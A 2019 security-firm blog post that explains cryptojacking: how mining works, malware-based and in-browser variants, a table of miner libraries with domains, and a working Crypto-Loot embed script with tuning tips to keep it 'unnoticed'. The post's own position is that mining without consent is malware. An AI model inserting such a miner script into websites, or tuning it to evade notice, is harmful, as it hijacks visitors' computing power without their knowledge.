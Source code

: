 :page-slug: cryptojacking-malware/
:page-date: 2019-08-25
:page-category: documentation
:page-subtitle: Understanding cryptojacking "malware"
:page-tags: social-engineering, javascript
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330840/blog/cryptojacking-malware/cover_qypfzt.webp
:page-alt: CPU Usage. Photo by Alberto Duo on Unsplash: https://unsplash.com/photos/e4rcg33x4fA
:page-description: Here we'll explain the different types of cryptojacking and give an example. We'll also discuss its legal use and the advantages of implementing it in an app.
:page-keywords: Blockchain, Cryptocurrencies, Cryptojacking, Mining, Malware, Javascript, Ethical Hacking, Pentesting
:page-author: Diego Alvarez
:page-writer: diegoaa
:name: Diego Alvarez
:about1: Systems and Telecommunications Engineer student
:about2: "Blessed is the man who expects nothing, because he will never be disappointed." Alexander Pope
:source: https://unsplash.com/photos/e4rcg33x4fA

= Cryptojacking, a Real Malware?

Before we begin,
we need a brief definition of blockchain.
It is simply a unique, consensual, and
distributed registry on the network
that allows storage of information
that cannot be modified, lost or deleted.
It is used in the health sector, smart contracts,
intellectual property management, and cryptocurrencies,
the last being its most common use.

In the field of cryptocurrencies,
a blockchain stores all transactions
made with a cryptocurrency.
The security and integrity of these systems
are maintained by nodes,
which are computers connected to the blockchain network
competing with each other to verify transactions.
This process is known as mining
and is carried out by providing processing power
with either `CPUs`, `GPUs`, or by
using specialized hardware for this type of task.

Usually nodes associate with each other
and create groups that working
together help to validate
a group of transactions.
When these transactions are validated,
each node is rewarded with
the proportion of the power contributed.

== Concept

When mining cryptocurrency, take into account that in these processes,
the percentage of `GPU` or `CPU` usage increases,
as well as the use of electricity.

Now, what if I tell you that others can perform such processing power for you,
and even better, without having to divide the profits between them?
It sounds pretty good, and it's simple to implement with two variations:

* The first is carried out by
infecting a victim's machine with malware.
Usually, this is done by social engineering.
We can make a victim,
without their knowledge, download malware
that executes the mining process in the background.
* The other variation is in-browser mining.
This executes code in the user's browser
when the user is accessing a particular site.
In this case, `JavaScript` is used to execute such scripts.

== Discussion

On one hand, some people prefer that
their `CPU` be used `100%` of the time,
without having to deal with ads
and pop-ups on every new page.

On the other hand, antivirus companies
periodically update their definition of malware
and include web miners as a potential threat to a user's system.

According to reports by COINTELEGRAPH<<r1 ,^[1]^>>, Monero
(the currency most affected
by excessive mining)
plans to reinforce its algorithm
by requiring miners to dedicate
over two gigabytes of `RAM` to the process,
which could make cryptojacking attempts harder to hide.

How the scripts are used
defines whether the usage is legal or not.
There are cases where attackers
inject code into websites through `XSS`,
generating profits, but do not have the consent
of the website administrator.

As noted above, with social engineering techniques,
the attacker could make victims download malicious programs
to perform mining without consent.

== Tools

There are many tools that can be used to perform in-browser mining.
link:https://krebsonsecurity.com/2018/03/who-and-what-is-coinhive/[Coinhive] had been one of the most used,
but since March 2019 it has stopped working.

However, there are other tools that are quite similar.
Table 1 below, a scan made with link:https://publicwww.com/[publicWWW], shows
the approximate number of websites using these tools.

.Quantity of websites per library<<2 ,^[2]^>>
[options="header"]
|====
|Website           |Results |Query Parameter
|Coinhive          |30611   |"coinhive.min.js"
|JSEcoin           |1131    |"load.jsecoin.com"
|Crypto-Loot       |695     |"CryptoLoot.Anonymous"
|Minr              |324     |"minr.pw", "st.kjli.fi", "abc.pema.cl",
"metrika.ron.si", "cdn.rove.cl", "host.d-ns.ga", "static.hk.rs",
"hallaert.online", "cnt.statistic.date", "cdn.static-cnt.bid"
|CoinImp           |317     |"www.coinimp.com/scripts/min.js"
|ProjectPoi (PPoi) |116     |"projectpoi.min"
|AFMiner           |46      |"afminer.com/code/miner.php"
|Papoto            |42      |"papoto.com/lib/papoto.js"
|====

In the following example, a test is shown using link:http://Crypto-Loot[Crypto Loot],
a library that is replacing the previous Coinhive.
It is very easy to implement in any application
by inserting the following code.

.In-Browser mining script
[source, javascript, linenums]
----
<script src="//statdynamic.com/lib/crypta.js"></script>
<script>
  var miner = new CRLT.Anonymous('15837bc7758859e913c5ccc2d292a9f1e54775389d5',
    { threads:4,throttle:0.2, coin: "xmr" }
  );
  miner.start();
</script>
----

When a user visits the application,
the processing level quickly increases.
The recommended thread value
to make the script unnoticed is between 2-4.
And the throttle that defines the maximum `CPU` usage
is at 0.2 (80%), the full speed being 0.0,
and the least recommended.

.CPU Usage while visiting a website with In-Browser mining script.
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330839/blog/cryptojacking-malware/cpu_wkmpwo.webp[CPU Usage]

Collected earnings and processing power
can be seen on the link:https://crypto-loot.org/dashboard/[dashboard]
of the person who inserted the script.

== Conclusion

The use of services such as link:http://Crypto-Loot[Crypto Loot] can be legal.
They are considered malware
when used anonymously in user's systems.
It is our responsibility
to inform users about what is happening
and provide statistics to users on mined power.

In order for these mining methods
to be legitimate and therefore, legal,
users must receive a notification
about the execution of these scripts, as well as
the option to disable them and stop mining.

So far, there are few websites
where the user is not actually informed
of the use of these scripts.
Here is where antivirus companies disagree.
Some antivirus companies believe excessive `CPU` usage
can cause intentional damage,
while others believe there is no intention
to harm an infected machine's files;
they just make the machine work a little slower.

Without a doubt, no one wants their machine to work slower,
but with proper configuration of the scripts,
you can achieve a website that generates profits
without having to show annoying ads to visitors
and without exceeding `CPU` usage.

== References

. [[r1]] COINTELEGRAPH.
link:https://cointelegraph.com/news/monero-developers-consider-adopting-new-proof-of-work-algorithm-in-october[Monero Developers Consider Adopting New Proof-of-Work Algorithm in October.]

. [[r2]] S. Eskandari, A. Leoutsarakos, T. Mursch and J. Clark (2018).
link:https://sci-hub.tw/https://ieeexplore.ieee.org/abstract/document/8406561[A first look at browser-based cryptojacking].
_2018 IEEE European Symposium on Security and Privacy Workshops (EuroS&PW)_, 63.
